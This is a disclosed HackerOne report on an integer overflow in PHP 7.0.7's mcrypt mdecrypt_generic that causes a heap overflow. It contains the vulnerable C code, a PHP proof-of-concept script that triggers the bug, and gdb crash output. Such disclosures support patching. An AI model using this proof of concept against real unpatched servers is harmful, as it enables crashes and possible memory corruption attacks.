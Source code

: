 # Heap Overflow Due To Integer Overflow

## Report Details
- **Report ID**: 146360
- **URL**: https://hackerone.com/reports/146360
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-06-22T02:41:10.357Z
- **Disclosed**: 2019-11-12T09:35:35.784Z

## Reporter
- **Username**: hoangnguyen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Bug reported : https://bugs.php.net/bug.php?id=72455

```
PHP_FUNCTION(mdecrypt_generic)
{
    **** snip***
    int block_size, data_size; // signed int
    /* Check blocksize */
    if (mcrypt_enc_is_block_mode(pm->td) == 1) { /* It's a block algorithm */
		block_size = mcrypt_enc_get_block_size(pm->td);
		data_size = ((((int)data_len - 1) / block_size) + 1) * block_size;
		data_s = emalloc(data_size + 1);
		memset(data_s, 0, data_size);
		memcpy(data_s, data, data_len);

    } else { /* It's not a block algorithm */
		data_size = (int)data_len;
		data_s = emalloc(data_size + 1);
		memset(data_s, 0, data_size);
		memcpy(data_s, data, data_len);
	}
```

As you can see data_size follow by formular : data_size = ((((int)data_len - 1) / block_size) + 1) * block_size; because data_size is int. If attacker control data_len for example data_len = 0xffffffff then data_size = 0x20, after that, they will emalloc(0x20) bytes and then use memcpy data to data_s with data_len is 0xffffffff in unsigned int is 4294967295, this leads to heap overflow.

Another code block that lead to integer overflow when check encrypt data is not a block cipher. They just cast data_len from unsigned int to signed int ```data_size = (int)data_len;```, if attacker control data_len = 0xffffffff (in signed int is -1) so that data_size+1 is 0 and pass this value to emalloc, after that they use data_len (is unsigned integer is 4294967295) to copy n bytes data to data_s, this leads to heap overflow again.

Test Script:
```
<?php
	/* Data */
	ini_set('memory_limit',-1);

	$key = str_repeat('C', 32);
	$str = str_repeat('A', 0xffffffff);

	// $td = mcrypt_module_open('des', '', 'ecb', '');
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_256, '', 'cbc', ''); // block cipher (case 1)
	// $td = mcrypt_module_open('rijndael-256', '', 'ofb', ''); // not block cipher (case 2)

	$ks = mcrypt_enc_get_key_size($td);

	$iv = str_repeat('D', 32);

	if (mcrypt_generic_init($td, $key, $iv) != -1) {
		mcrypt_generic_init($td, $key, $iv);
		$p_t = mdecrypt_generic($td, $str);

		mcrypt_generic_deinit($td);
		mcrypt_module_close($td);
	}
?>
```

Crash:
```
gdb-peda$ r test.php
Starting program: /media/Data/Build/audit/php7.0.7 test.php

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7ffff427c320 --> 0x0
RBX: 0x0
RCX: 0x8000f427c310
RDX: 0xffe7c2d0
RSI: 0x7ffef3d83d38 ('A' <repeats 200 times>...)
RDI: 0x7ffff43fffc0 ('A' <repeats 64 times><error: Cannot access memory at address 0x7ffff4400000>)
RBP: 0x7fffffffaf50 --> 0x7fffffffaf80 --> 0x7fffffffafb0 --> 0x7fffffffaff0 --> 0x7fffffffb100 --> 0x7fffffffd400 --> 0x7fffffffe780 --> 0x7fffffffe8d0 --> 0x9a0b00 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffaee8 --> 0x64e590 (<zif_mdecrypt_generic+401>:	jmp    0x64e5f2 <zif_mdecrypt_generic+499>)
RIP: 0x7ffff6c2ba0e (<__memcpy_avx_unaligned+830>:	vmovntdq YMMWORD PTR [rdi+0x40],ymm2)
R8 : 0x7ffff427c320 --> 0x0
R9 : 0x0
R10: 0x20 (' ')
R11: 0x7ffff77746e0 (<mcrypt_enc_get_block_size>:	mov    rax,QWORD PTR [rdi+0xc8])
R12: 0x424690 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe9b0 --> 0x2
R14: 0x7ffff4214030 --> 0x7ffff427f5c0 ('A' <repeats 200 times>...)
R15: 0x7ffff427f5c0 ('A' <repeats 200 times>...)
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff6c2ba01 <__memcpy_avx_unaligned+817>:	sub    rsi,0xffffffffffffff80
   0x7ffff6c2ba05 <__memcpy_avx_unaligned+821>:	vmovntdq YMMWORD PTR [rdi],ymm0
   0x7ffff6c2ba09 <__memcpy_avx_unaligned+825>:	vmovntdq YMMWORD PTR [rdi+0x20],ymm1
=> 0x7ffff6c2ba0e <__memcpy_avx_unaligned+830>:	vmovntdq YMMWORD PTR [rdi+0x40],ymm2
   0x7ffff6c2ba13 <__memcpy_avx_unaligned+835>:	vmovntdq YMMWORD PTR [rdi+0x60],ymm3
   0x7ffff6c2ba18 <__memcpy_avx_unaligned+840>:	sub    rdi,0xffffffffffffff80
   0x7ffff6c2ba1c <__memcpy_avx_unaligned+844>:	add    rdx,0xffffffffffffff80
   0x7ffff6c2ba20 <__memcpy_avx_unaligned+848>:	jb     0x7ffff6c2b9e0 <__memcpy_avx_unaligned+784>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffaee8 --> 0x64e590 (<zif_mdecrypt_generic+401>:	jmp    0x64e5f2 <zif_mdecrypt_generic+499>)
0008| 0x7fffffffaef0 --> 0x7ffff42141e0 --> 0x0
0016| 0x7fffffffaef8 --> 0x7ffff4214220 --> 0x0
0024| 0x7fffffffaf00 --> 0xfffffda9000000e2
0032| 0x7fffffffaf08 --> 0x2000000020 (' ')
0040| 0x7fffffffaf10 --> 0x7ffff4214280 --> 0x7ffff42010e0 --> 0x900000002
0048| 0x7fffffffaf18 --> 0x7ffef3c00018 ('A' <repeats 200 times>...)
0056| 0x7fffffffaf20 --> 0xfffffff0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
__memcpy_avx_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-avx-unaligned.S:272
272	../sysdeps/x86_64/multiarch/memcpy-avx-unaligned.S: No such file or directory.
gdb-peda$ bt
#0  __memcpy_avx_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-avx-unaligned.S:272
#1  0x000000000064e590 in zif_mdecrypt_generic (execute_data=0x7ffff4214220, return_value=0x7ffff42141e0) at /home/hoangnguyen/Data/Build/audit/php-7.0.7/ext/mcrypt/mcrypt.c:688
#2  0x000000000092cb3e in ZEND_DO_ICALL_SPEC_HANDLER () at /home/hoangnguyen/Data/Build/audit/php-7.0.7/Zend/zend_vm_execute.h:586
#3  0x000000000092c56a in execute_ex (ex=0x7ffff4214030) at /home/hoangnguyen/Data/Build/audit/php-7.0.7/Zend/zend_vm_execute.h:414
#4  0x000000000092c67b in zend_execute (op_array=0x7ffff427e000, return_value=0x0) at /home/hoangnguyen/Data/Build/audit/php-7.0.7/Zend/zend_vm_execute.h:458
#5  0x00000000008cd94a in zend_execute_scripts (type=0x8, retval=0x0, file_count=0x3) at /home/hoangnguyen/Data/Build/audit/php-7.0.7/Zend/zend.c:1427
#6  0x00000000008362ea in php_execute_script (primary_file=0x7fffffffd630) at /home/hoangnguyen/Data/Build/audit/php-7.0.7/main/main.c:2494
#7  0x0000000000995591 in do_cli (argc=0x2, argv=0x115d440) at /home/hoangnguyen/Data/Build/audit/php-7.0.7/sapi/cli/php_cli.c:974
#8  0x000000000099675f in main (argc=0x2, argv=0x115d440) at /home/hoangnguyen/Data/Build/audit/php-7.0.7/sapi/cli/php_cli.c:1344
#9  0x00007ffff6afe830 in __libc_start_main (main=0x995f54 <main>, argc=0x2, argv=0x7fffffffe9b8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>,
    stack_end=0x7fffffffe9a8) at ../csu/libc-start.c:291
#10 0x00000000004246b9 in _start ()
```

## Attachments
No attachments
